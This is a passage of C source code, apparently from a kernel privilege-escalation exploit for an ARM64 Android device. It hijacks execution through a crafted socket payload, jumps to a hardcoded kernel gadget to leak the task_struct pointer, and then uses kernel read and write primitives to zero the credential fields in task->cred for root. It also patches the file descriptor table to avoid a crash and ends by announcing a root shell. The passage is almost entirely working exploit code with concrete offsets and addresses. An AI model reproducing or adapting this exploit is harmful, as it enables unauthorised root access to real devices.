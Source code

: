 ```

	   exp_sock = -1;
	   exp_sock_index = exp_sock_index + 1;
	   exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	   if(-1 == exp_sock)
	   {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	   }

	   /*
	      when PC is hijacked, X1 is 0. so we can leak task_struct pointer in 0x0000000000000018

	      ROM:FFFFFFC0004AA518                 MOV             X2, SP
	      ROM:FFFFFFC0004AA51C                 AND             X2, X2, #0xFFFFFFFFFFFFC000
	      ROM:FFFFFFC0004AA520                 LDR             X2, [X2,#0x10]
	      ROM:FFFFFFC0004AA524                 STR             X2, [X1,#0x18]
	      ROM:FFFFFFC0004AA528                 RET
	   */
	   *(unsigned long *)((char *)payload + 0x290) = 0;
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC0004AA518;
	   close(exp_sock);


	   /*
	      overwrite task_struct->cred to gain root privilege
	   */
	   task = NULL;
	   task = (void *)*(unsigned long *)((char *)user_mm + 0x18);
	   printf("[*] task:%p\n", task); 

	   cred = NULL;
	   kernel_read8((char *)task + 0x398, &cred);
	   printf("[*] cred:%p\n", cred);

	   data4 = 0;
	   kernel_write4((char *)cred +  4,  &data4);
	   kernel_write4((char *)cred +  8,  &data4);
	   kernel_write4((char *)cred + 12,  &data4);
	   kernel_write4((char *)cred + 16,  &data4);
	   kernel_write4((char *)cred + 20,  &data4);
	   kernel_write4((char *)cred + 24,  &data4);
	   kernel_write4((char *)cred + 28,  &data4);
	   kernel_write4((char *)cred + 32,  &data4);

	   /*
	      cleanup to avoid crash. overwirte task_struct->files->fdt->max_fds to 0
	   */

	   kernel_read8((char *)task + 0x788, &files);
	   printf("[*] files:%p\n", files);

	   kernel_read8((char *)files + 8, &fdt);
	   printf("[*] fdt:%p\n", fdt);

	   data4 = 0;
	   kernel_write4(fdt, &data4);


	  if(getuid() == 0)
	  {
	      printf("[*] congrats, enjoy your root shell.\n");
```